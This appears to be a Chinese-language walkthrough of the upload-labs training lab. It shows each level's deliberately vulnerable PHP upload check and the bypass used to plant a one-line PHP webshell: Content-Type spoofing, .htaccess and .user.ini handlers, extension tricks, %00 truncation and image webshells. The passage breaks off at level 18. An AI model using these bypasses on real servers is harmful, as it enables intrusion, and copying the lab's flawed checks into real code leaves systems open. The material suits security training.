


# Pass01

```javascript
function checkFile() {
    var file = document.getElementsByName('upload_file')[0].value;
    if (file == null || file == "") {
        alert("请选择要上传的文件!");
        return false;
    }
    //定义允许上传的文件类型
    var allow_ext = ".jpg|.png|.gif";
    //提取上传文件的类型
    var ext_name = file.substring(file.lastIndexOf("."));
    //判断上传文件类型是否允许上传
    if (allow_ext.indexOf(ext_name + "|") == -1) {
        var errMsg = "该文件不允许上传，请上传" + allow_ext + "类型的文件,当前文件类型为：" + ext_name;
        alert(errMsg);
        return false;
    }
}
```

先将一句话木马后缀改为允许上传的格式jpg，


然后将`jpg`的后缀改为`php`便能够成功上传


还有一种方法可以直接在浏览器选项里禁用javascript

# Pass02

```
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        if (($_FILES['upload_file']['type'] == 'image/jpeg') || ($_FILES['upload_file']['type'] == 'image/png') || ($_FILES['upload_file']['type'] == 'image/gif')) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' . $_FILES['upload_file']['name']            
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '文件类型不正确，请重新上传！';
        }
    } else {
        $msg = UPLOAD_PATH.'文件夹不存在,请手工创建！';
    }
}

```

第二关还是用到BP抓包，抓包查看文件类型字段，猜测会判断Content-Type字段

这是改包之前的字段


将Content-Type改为`image/jpge`、`image/png`、`image/gif`中的一个。

 

# Pass03

```html
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array('.asp','.aspx','.php','.jsp');
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //收尾去空

        if(!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;            
            if (move_uploaded_file($temp_file,$img_path)) {
                 $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '不允许上传.asp,.aspx,.php,.jsp后缀文件！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

​	直接上传php脚本显示提示：不允许上传.asp,.aspx,.php,.jsp后缀文件！  

  

1. 尝试使用和php一样解析效果的后缀名，也就是等价扩展名。如`php3`、`php4`、`php5`、`phtml`等后缀名


上传成功


# Pass04

```html
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".php1",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".pHp1",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".ini");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //收尾去空

        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件不允许上传!';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

## MIME类型

> 1、MIME的全名叫多用途互联网邮件扩展（Multipurpose Internet Mail Extensions），最初是为了将纯文本格式的电子邮件扩展到可以支持多种信息格式而定制的。后来被应用到多种协议里，包括我们常用的HTTP协议。
>
> 2、 在访问网页时，MIME type帮助浏览器识别一个HTTP请求返回的是什么内容的数据，应该如何打开、如何显示。
>
> 3、 MIME的常见形式是一个主类型加一个子类型，用斜线分隔。比如text/html、application/javascript、image/png等。

## 文件上传中的MIME校验

> 1、Web应用通过MIME类型区分数据的不同种类，通过MIME类型来说明允许发送或接收的数据种类，文件上传中的MIME校验属于白名单的一种，通过MIME类型判断上传的文件是否合法
>
> 2、 常用的文件上传类型的 MIME 表： text/plain（纯文本）、text/html（HTML 文档）、text/javascript（js 代码）、application/xhtml+xml、XHTML 文档）、image/gif（GIF 图像、 image/jpeg（JPEG 图像）、image/png（PNG 图像）、video/mpeg（MPEG 劢画）、application/octet-stream（二迚制数据）、application/pdf（PDF 文档）、application/(编程语言) 该种语言的代码、application/msword（Microsoft Word 文件）、message/rfc822（RFC 822 形式）、multipart/alternative（HTML 邮件的 HTML 形式和纯文本形式，相同内容使用不同形式表示）、application/x-www-form-urlencoded（POST 方法提交的表单、multipart/form-data（POST 提交时伴随文件上传的表单）

## MIME校验绕过方法

> 1、修改数据包中的Content-Type字段的值为允许的类型，如修改Content-Type:application/octet-stream为Content-Type:image/gif

能看到这一Pass的黑名单已经包含了大多数脚本后缀名，

漏洞描述：依然是使用黑名单限制，但几乎过滤了所有有问题的后缀名，但可以允许上传.htaccess 文件。

> htaccess 文件是 Apache 服务器中的一个配置文件，它负责相关目录下的网页配置。通过htaccess 文件，可以实现：网页 301 重定向、自定义 404 错误页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能

我们这里就是使用的是他的改变文件扩展名的功能

利用方法：上传.htaccess 解析文件，利用其配置，将白名单文件的类型解析成php 文件类型。

```
<FilesMatch "test.jpg">
SetHandler application/x-httpd-php
</FilesMatch>
```

再上传一个一句话木马的php但将其后缀改成jpg，文件名为 test.jpg，依旧访问test.jpg，但其会以php形式显示

成功拿到webshell


# Pass05

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //首尾去空
        
        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件类型不允许上传！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```


源码里把所有可以解析的后缀名都给写死了，包括大小写，转换，空格，还有点号，正常的php类文件上传不了了，并且拒绝上传 .htaccess 文件。
反复观察发现没有被限制的后缀名有 .php7 以及 .ini

那.ini是啥

>user.ini ： 自 PHP 5.3.0 起，PHP 支持基于每个目录的 .htaccess 风格的 INI 文件。此类文件仅被
>   CGI／FastCGI SAPI 处理。此功能使得 PECL 的 htscanner 扩展作废。如果使用 Apache，则用
>   .htaccess 文件有同样效果。
>
>   除了主 php.ini 之外，PHP 还会在每个目录下扫描 INI 文件，从被执行的 PHP 文件所在目录开始一直上升到 web
>   根目录（$_SERVER['DOCUMENT_ROOT'] 所指定的）。如果被执行的 PHP 文件在 web 根目录之外，则只扫描该目录。
>
>   在 .user.ini 风格的 INI 文件中只有具有 PHP_INI_PERDIR 和 PHP_INI_USER 模式的 INI
>   设置可被识别。
>
>   两个新的 INI 指令，user_ini.filename 和 user_ini.cache_ttl 控制着用户 INI 文件的使用。
>
>   user_ini.filename 设定了 PHP 会在每个目录下搜寻的文件名；如果设定为空字符串则 PHP 不会搜寻。默认值是
>   .user.ini。
>
>   user_ini.cache_ttl 控制着重新读取用户 INI 文件的间隔时间。默认是 300 秒（5 分钟）。

php.ini 是 php的配置文件，.user.ini 中的字段也会被 php 视为配置文件来处理，从而导致 php 的文件解析漏洞。

但是想要引发 .user.ini 解析漏洞需要三个前提条件

> 服务器脚本语言是PHP
>
> 服务器使用CGI/FastCGI模式
>
> 上传目录下要有可执行的php文件

其中php语言和CGI我们的Apache和环境均满足，创建一个.user.ini文件并把它上传


接着上传666.png


然后这里有两个选择
选择一：慢慢的等候5分钟，然后再访问文件
选择二：直接进去修改php-ini配置文件

把191行这个ttl数值从300s改为10s，然后保存修改重启phpstudy


然后在复制图像地址后，用蚁剑访问将文件名改为readme.php


这关也可以用后面的`.php. .`绕过过滤，因为他没有循环检测，所以所按照过滤的顺序一次添加符号就行。

# Pass06

```
 $is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess",".ini");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //首尾去空

        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件类型不允许上传！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    } 
}
```

这一关把上一关我们用的htaccess也加入黑名单了，但是将仔细看这一关并没有像上一关一样对文件后缀名的大小写做处理。也就是这个函数` $file_ext = strtolower($file_ext); //转换为小写`

那我们试试传一个后缀为`.PHP`的文件上去看看

> 大小写绕过原理： Windows 系统下，对于文件名中的大小写不敏感。例如：test.php 和TeSt.PHP是一样的。 Linux 系统下，对于文件名中的大小写敏感。例如：test.php 和TesT.php 就是不一样的。


成功拿到webshell


# Pass07

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess",".ini");
        $file_name = $_FILES['upload_file']['name'];
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        
        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;
            if (move_uploaded_file($temp_file,$img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件不允许上传';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

这一关又是少了一个过滤条件对上传的文件名未做去空格的操作`trim()`

用burp抓包在后面加上一个空格就可以成功上传


# Pass08

```
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess",".ini");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //首尾去空
        
        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件类型不允许上传！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

这一关少了将文件后缀名后的点去掉函数

``` 
$file_name = deldot($file_name);//删除文件名末尾的点
```

> Windows 系统下，文件后缀名最后一个点会被自动去除。


# Pass09

```
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess",".ini");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = trim($file_ext); //首尾去空
        
        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件类型不允许上传！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

这一关没有对上传的文件做去`::$DATA`处理

```
$file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
```

> Windows 系统下，如果上传的文件名为 test.php::$DATA 会在服务器上生成一个test.php 的文件，其中内容和所上传文件内容相同，并被解析。


但是这里上传成功后Windows会自动将::$DATA去掉所以连接时也要记得去掉后缀。


# Pass10

```
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess",".ini");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //首尾去空
        
        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件类型不允许上传！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

可以看到过滤顺序是先删除后缀名末尾的点，再删除空格，所以我们可以按照在php后面加个点，再加个空格，再加个点的顺序进行绕过。也就是`.php. .`


成功连接


# Pass11

```
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array("php","php5","php4","php3","php2","html","htm","phtml","pht","jsp","jspa","jspx","jsw","jsv","jspf","jtml","asp","aspx","asa","asax","ascx","ashx","asmx","cer","swf","htaccess","ini");

        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = str_ireplace($deny_ext,"", $file_name);
        $temp_file = $_FILES['upload_file']['tmp_name'];
        $img_path = UPLOAD_PATH.'/'.$file_name;        
        if (move_uploaded_file($temp_file, $img_path)) {
            $is_upload = true;
        } else {
            $msg = '上传出错！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

str_ireplace(*find,replace,string,count*)


| 参数      | 描述                               |
| :-------- | :--------------------------------- |
| *find*    | 必需。规定要查找的值。             |
| *replace* | 必需。规定替换 *find* 中的值的值。 |
| *string*  | 必需。规定被搜索的字符串。         |
| *count*   | 可选。一个变量，对替换数进行计数。 |


```
        $file_name = str_ireplace($deny_ext,"", $file_name);
```

这个函数的作用是如果传输的文件名的后缀有出现在黑名单中，便会把他替换成空。

那么就利用他这种替换，我们将文件名的后缀改为`.pphphp`


# Pass12

```
$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
    $ext_arr = array('jpg','png','gif');
    $file_ext = substr($_FILES['upload_file']['name'],strrpos($_FILES['upload_file']['name'],".")+1);
    if(in_array($file_ext,$ext_arr)){
        $temp_file = $_FILES['upload_file']['tmp_name'];
        $img_path = $_GET['save_path']."/".rand(10, 99).date("YmdHis").".".$file_ext;

        if(move_uploaded_file($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = '上传出错！';
        }
    } else{
        $msg = "只允许上传.jpg|.png|.gif类型文件！";
    }
}
```

截断字符`%00 `，类似C++的`\0`

| URL encode | ASII value |
| ---------- | ---------- |
| %00        | 0          |

首先提取了文件后缀名，只允许上传图片文件，但上传路径是可控的，所以我们可以使用%00截断漏洞将上传路径改为文件名。当使用了截断漏洞时，这时传入的文件名为`info.php%00info.jpg`，检测时发现后缀为.jpg，所以没有过滤掉；但是保存时由于使用了%00截断，%00后面的字符串不生效，所以最后保存的文件名是info.php。


PS:%00只能用于php版本低于5.3的，需要 php 的版本号低于 5.3.29，且 magic_quotes_gpc 为关闭状态

但是这里有个问题，我看有的说%00只能用于php版本低于5.3的，但是我换到低版本仍然上传不成功，截断不起作用。后面使用php5.5.9nts可以成功上传


将其截断后成功通过校验白名单。


# Pass13

```
$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
    $ext_arr = array('jpg','png','gif');
    $file_ext = substr($_FILES['upload_file']['name'],strrpos($_FILES['upload_file']['name'],".")+1);
    if(in_array($file_ext,$ext_arr)){
        $temp_file = $_FILES['upload_file']['tmp_name'];
        $img_path = $_POST['save_path']."/".rand(10, 99).date("YmdHis").".".$file_ext;

        if(move_uploaded_file($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = "上传失败";
        }
    } else {
        $msg = "只允许上传.jpg|.png|.gif类型文件！";
    }
}
```

第十三关和第十二关是差不多的，只不过是接受值变成了post,她两的差别呢就是get会自行解码，post不会自行解码


所以我们将其切换为十六进制，用+占位，ACII `+` 对应的十六进制值就是2b，将其改为00，和截断作用相同




成功上传


#  Pass14

```
function getReailFileType($filename){
    $file = fopen($filename, "rb");
    $bin = fread($file, 2); //只读2字节
    fclose($file);
    $strInfo = @unpack("C2chars", $bin);    
    $typeCode = intval($strInfo['chars1'].$strInfo['chars2']);    
    $fileType = '';    
    switch($typeCode){      
        case 255216:            
            $fileType = 'jpg';
            break;
        case 13780:            
            $fileType = 'png';
            break;        
        case 7173:            
            $fileType = 'gif';
            break;
        default:            
            $fileType = 'unknown';
        }    
        return $fileType;
}

$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $file_type = getReailFileType($temp_file);

    if($file_type == 'unknown'){
        $msg = "文件未知，上传失败！";
    }else{
        $img_path = UPLOAD_PATH."/".rand(10, 99).date("YmdHis").".".$file_type;
        if(move_uploaded_file($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = "上传出错！";
        }
    }
}
```

通过读文件的前 2 个字节，检测上传文件二进制的头信息，判断文件类型，利用图片马绕过检测。 利用方法：

图片马制作 在 cmd 里执行 `copy logo.jpg/b+test.php/a test.jpg `

 logo.jpg 为任意图片 

test.php 为我们要插入的木马代码

 test.jpg 为我们要创建的图片马 名字可任意

图片马制作完成后使用网页的文件包含漏洞


用的是get方法，所以连接时记得地址上加上file


成功用蚁剑连接


# Pass15

```
function isImage($filename){
    $types = '.jpeg|.png|.gif';
    if(file_exists($filename)){
        $info = getimagesize($filename);
        $ext = image_type_to_extension($info[2]);
        if(stripos($types,$ext)>=0){
            return $ext;
        }else{
            return false;
        }
    }else{
        return false;
    }
}

$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $res = isImage($temp_file);
    if(!$res){
        $msg = "文件未知，上传失败！";
    }else{
        $img_path = UPLOAD_PATH."/".rand(10, 99).date("YmdHis").$res;
        if(move_uploaded_file($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = "上传出错！";
        }
    }
}
```

```
 $info = getimagesize($filename);  //getimagesize() 函数用于获取图像大小及相关信息，成功返回一个数组
```

这个函数的意思是：会对目标文件的16进制去进行一个读取，去读取头几个字符串是不是符合图片的要求的

所以这关还是用和14关一样的方法，生成带有php代码的图片上传，配合包含漏洞拿下此关。




# Pass16 

```
function isImage($filename){
    //需要开启php_exif模块
    $image_type = exif_imagetype($filename);
    switch ($image_type) {
        case IMAGETYPE_GIF:
            return "gif";
            break;
        case IMAGETYPE_JPEG:
            return "jpg";
            break;
        case IMAGETYPE_PNG:
            return "png";
            break;    
        default:
            return false;
            break;
    }
}

$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $res = isImage($temp_file);
    if(!$res){
        $msg = "文件未知，上传失败！";
    }else{
        $img_path = UPLOAD_PATH."/".rand(10, 99).date("YmdHis").".".$res;
        if(move_uploaded_file($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = "上传出错！";
        }
    }
}
```

第16关同14，15关思路一样，操作一样。但是需要打开php_exif，


> exif_imagetype()函数是PHP中的内置函数，用于确定图像的类型。


上传之后文件重命名了。注意一下


# Pass17

```
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])){
    // 获得上传文件的基本信息，文件名，类型，大小，临时文件路径
    $filename = $_FILES['upload_file']['name'];
    $filetype = $_FILES['upload_file']['type'];
    $tmpname = $_FILES['upload_file']['tmp_name'];

    $target_path=UPLOAD_PATH.'/'.basename($filename);

    // 获得上传文件的扩展名
    $fileext= substr(strrchr($filename,"."),1);

    //判断文件后缀与类型，合法才进行上传操作
    if(($fileext == "jpg") && ($filetype=="image/jpeg")){
        if(move_uploaded_file($tmpname,$target_path)){
            //使用上传的图片生成新的图片
            $im = imagecreatefromjpeg($target_path);

            if($im == false){
                $msg = "该文件不是jpg格式的图片！";
                @unlink($target_path);
            }else{
                //给新图片指定文件名
                srand(time());
                $newfilename = strval(rand()).".jpg";
                //显示二次渲染后的图片（使用用户上传图片生成的新图片）
                $img_path = UPLOAD_PATH.'/'.$newfilename;
                imagejpeg($im,$img_path);
                @unlink($target_path);
                $is_upload = true;
            }
        } else {
            $msg = "上传出错！";
        }

    }else if(($fileext == "png") && ($filetype=="image/png")){
        if(move_uploaded_file($tmpname,$target_path)){
            //使用上传的图片生成新的图片
            $im = imagecreatefrompng($target_path);

            if($im == false){
                $msg = "该文件不是png格式的图片！";
                @unlink($target_path);
            }else{
                 //给新图片指定文件名
                srand(time());
                $newfilename = strval(rand()).".png";
                //显示二次渲染后的图片（使用用户上传图片生成的新图片）
                $img_path = UPLOAD_PATH.'/'.$newfilename;
                imagepng($im,$img_path);

                @unlink($target_path);
                $is_upload = true;               
            }
        } else {
            $msg = "上传出错！";
        }

    }else if(($fileext == "gif") && ($filetype=="image/gif")){
        if(move_uploaded_file($tmpname,$target_path)){
            //使用上传的图片生成新的图片
            $im = imagecreatefromgif($target_path);
            if($im == false){
                $msg = "该文件不是gif格式的图片！";
                @unlink($target_path);
            }else{
                //给新图片指定文件名
                srand(time());
                $newfilename = strval(rand()).".gif";
                //显示二次渲染后的图片（使用用户上传图片生成的新图片）
                $img_path = UPLOAD_PATH.'/'.$newfilename;
                imagegif($im,$img_path);

                @unlink($target_path);
                $is_upload = true;
            }
        } else {
            $msg = "上传出错！";
        }
    }else{
        $msg = "只允许上传后缀为.jpg|.png|.gif的图片文件！";
    }
}
```

这一关主要的函数就是

`imagecreatefromjpeg()`    `	imagecreatefrompng()`  `imagecreatefromgif()`

> imagecreatefrompng()函数是PHP中的内置函数，用于从PNG文件或URL创建新图像

这个二次渲染的作用会将图片马中的php代码清除，下图中可以看到上传前是有php语句的上传后就没了。


  


这里看到别人的方法是找到渲染后的图片里面没有发生变化的Hex地方，添加一句话一句话木马，通过文件包含漏洞执行一句话，使用蚁剑进行连接

> 使用Fairdell HexCmp进行比对。红色部分为不同内容，白色部分为相同内容。在白色靠下部分插入PHP一句话，上传。
>
> 

但是我这个软件一直出现问题，所以看到另一种方法，别人做好的一个图片马，不会因为二次渲染而被删除php部分


使用蚁剑成功连接


# Pass 18

 

```
$is_upload = false;
$msg = null;

if(isset($_POST['submit'])){
    $ext_arr = array('jpg','png','gif');
    $file_name = $_FILES['upload_file']['name'];
    $temp_file = $_FILES['upload_file']['tmp_name'];
